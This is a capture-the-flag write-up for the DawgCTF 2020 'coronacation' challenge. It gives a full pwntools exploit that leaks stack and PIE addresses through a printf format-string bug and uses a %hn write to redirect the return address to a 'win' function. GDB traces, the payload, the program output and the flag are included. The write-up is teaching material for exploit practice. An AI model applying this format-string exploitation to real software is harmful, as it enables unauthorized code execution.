


# DawgCTF 2020

## coronacation

> 400
>
> Can't wait to see how we screw it up this week!
>
> `nc ctf.umbccd.io 4300`
>
> Author: trashcanna
> 
> [coronacation](coronacation)

Tags: _pwn_


### Introduction

This is more of a walkthrough, if bored click [exploit.py](exploit.py)


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Most mitigations in place, however can smash stack, ROP, but no GOT.


#### Decompile with Ghidra

There are three functions of interest: `play_game`, `close_borders`, and `win`.

Main just calls `play_game`:



`play_game` has a `printf` format string vulnerability (line 15).  This code will read up to 50 (`0x32`) characters of input, however only the first char is used to determine if `close_boarders` or `no_panic` _or_ nothing is called.


`close_borders` also has a `printf` format string vulnerability (line 16).  This is one of two similar functions, and like `play_game`, the first char determines what function is called _or_ none (just return).

There is no call to:



Clearly we want to call `win`.

With ASLR (PIE) enabled we'll have to leak a process address using a `printf` format string vulnuerability (see line 15 in `play_game` above).

However, there is no buffer overflow exploit (no `gets`, `fgets` limited to 50 characters), so we'll have to exploit a 2nd `printf` format string vulnerability from `close_borders` to _write_ the `win` location into the return address pushed by `main`.

To determine what to leak, run `coronacation` with GDB (gef in my case), and set a breakpoint at `play_game` `printf(local_48)`:

```
# setarch $(uname -m) -R gef ./coronacation
```

> I find exploit development a bit easier (consistent addresses between sessions) by disabling ASLR with `setarch $(uname -m) -R`.  Just do not hardcode any addresses :-)

```
gef➤  gef config context.nb_lines_stack 16
gef➤  disas play_game
Dump of assembler code for function play_game:
...
   0x0000000000001421 <+116>:	mov    eax,0x0
   0x0000000000001426 <+121>:	call   0x1040 <printf@plt>
   0x000000000000142b <+126>:	movzx  edx,BYTE PTR [rip+0xf92]        # 0x23c4
...
End of assembler dump.
gef➤  b *play_game+121
Breakpoint 1 at 0x1426
gef➤  run
Starting program: /pwd/datajerk/dawgctf2020/coronacation/coronacation
Welcome to this choose your own adventure game!
You're President Ronald Drump and are tasked with leading the nation through this crisis.
So what do you want to do?
1. Close the borders.
2. Tell everyone not to panic. It's just the Fake News media freaking out.
1

Breakpoint 1, 0x0000555555555426 in play_game ()
```

After the break look at the stack:

```
0x00007fffffffe4f0│+0x0000: 0x00007fffff000a31 ("1"?)	 ← $rsp, $rdi, $r8
0x00007fffffffe4f8│+0x0008: 0x00007ffff7e797e5  →  <handle_intel.constprop+197> test rax, rax
0x00007fffffffe500│+0x0010: 0x0000000000000000
0x00007fffffffe508│+0x0018: 0x00005555555554d5  →  <__libc_csu_init+69> add rbx, 0x1
0x00007fffffffe510│+0x0020: 0x00007ffff7faa008  →  0x0000000000000000
0x00007fffffffe518│+0x0028: 0x0000000000000000
0x00007fffffffe520│+0x0030: 0x0000555555555490  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x0038: 0x0000555555555080  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x0040: 0x00007fffffffe540  →  0x0000555555555490  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe538│+0x0048: 0x0000555555555484  →  <main+14> mov eax, 0x0
0x00007fffffffe540│+0x0050: 0x0000555555555490  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x0058: 0x00007ffff7de11e3  →  <__libc_start_main+243> mov edi, eax
0x00007fffffffe550│+0x0060: 0x0000000000000000
0x00007fffffffe558│+0x0068: 0x00007fffffffe628  →  0x00007fffffffe82d  →  "/pwd/datajerk/dawgctf2020/coronacation/coronacatio[...]"
0x00007fffffffe560│+0x0070: 0x0000000100100000
0x00007fffffffe568│+0x0078: 0x0000555555555476  →  <main+0> push rbp
```

Lines `+0x0040` and `+0x0048` both look interesting.  The first is the saved base pointer for `__libc_csu_init`; _and_ leaks the location of the stack.

The second (`main+14`) is the return address that will return execution to `main` after `close_borders` returns; _and_ leaks the location of the binary process.

x86_64 glibc `printf` parameters 1-5 are located in registers `rsi`, `rdx`, `rcx`, `r8`, `r9` (in that order).  Parameters starting with 6 are located on the stack.  Starting from the top and counting down `main+14` is the 15th parameter--this we need to overwrite with `win`.  Parameter 14 leaks the location of the stack just under `main+14`, IOW writing to this address, less 8, will overwrite the return address, redirecting execution to, well, `win`, for example.


### Exploit

#### Attack Plan

1. Leak stack and `main` locations
2. Compute the locations of _return to main_, and `win`
3. Overwrite _return to main_ with `win`, get the flag


#### Leak stack and `main` locations

```python
from pwn import *

binary = ELF('coronacation')
p = process('./coronacation')
#p = remote('ctf.umbccd.io', 4300)

p.recvuntil('freaking out.\n')
p.sendline('1 %14$p %15$p ')
_ = p.recvuntil('plan.\n')
```

The above will return something like:

```
b"You chose: 1 0x7fffffffe5b0 0x555555555484 \n\n
So we closed our borders. Weren't we doing that anyway with the wall?\n
It's still spreading within our borders what do we do now?\n
1. Reassure everyone the country can handle this. Our healthcare system is the best. Just the greatest.\n
2. Make it a national emergency. Show the people we don't need Bernie's healthcare plan.\n"
```

into `_`; this is the leaked addresses and the prompt from `close_borders`.


#### Compute the locations of _return to main_, and `win`

```python
stack = int(_.split()[3],16)
main = int(_.split()[4],16) - 14
win = main - (binary.symbols['main'] - binary.symbols['win'])

print(hex(win))
print(hex(stack))
```

As described in the Analysis section above the two leaked address are the address of the stack below `main+14` and the address of `main+14`.  The address of `main` is just `main+14` - 14.  From that we can compute the address of `win`.


#### Overwrite _return to main_ with `win`, get the flag

```python
payload  = b'3       '
payload += b'%' + str((win & 0xFFFF) - 8).rjust(6,'0').encode() + b'x'
payload += b'%9$hn   '
payload += p64(stack - 8)
```
The payload should look something like:

```
b'3       %020829x%9$hn   \xa8\xe5\xff\xff\xff\x7f\x00\x00'
```

The first 8 bytes start with a `3`, so that neither option `1` or `2` are taken, followed by 7 spaces (it is important to keep stack aligned).

The second 8 bytes will emit `(win & 0xFFFF) - 8` zeros, the zeros are of little interest (zero actually); it's the metadata we're after, i.e. the _number_ of zeros sent (`printf` keeps an internal counter of all characters sent).  We only need the lower 16-bits of `win` to overwrite the lower 16-bits of _return to main_ in the stack, since the rest of the bits are the same.  The `- 8` is necessary since we already sent 8 bytes with `3` + 7 spaces; the total bytes sent needs to equal `win & 0xFFFF`.

The third 8 bytes instructs `printf` to write out the internal character counter as a 16-bit value to the address at parameter 9.  _Why 9?_  If you recall, x86_64/libc parameters 1-5 are in registers, and starting from the top of the stack down are parameters 6, 7, 8, and 9, (and so on).  The payload string starts at parameter 6, therefore the target address (4th set of bytes) is located at parameter 9.

The leaked stack location (see Analysis above) is 8 more than the location of the _return to main_ address, so we have to subtract off 8.

```python
p.sendline(payload)
#p.stream()
_ = p.recvline()
import re
print(re.sub(b'000+',b' ...[zeros removed]... ',_,1))
```

Normally I'd just end with `p.stream()` and collect the flag, but to make this doc a bit more readable I replaced with the regex above to remove all the zeros.


#### Output

```
[*] '/pwd/datajerk/dawgctf2020/coronacation/coronacation'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to ctf.umbccd.io on port 4300: Done
0x5563f0a2f165
0x7ffee7825c60
b'You chose: 3        ...[zeros removed]... DawgCTF{st@y_Th3_f@ck_h0m3}\n'
```

#### Flag

```
DawgCTF{st@y_Th3_f@ck_h0m3}
```
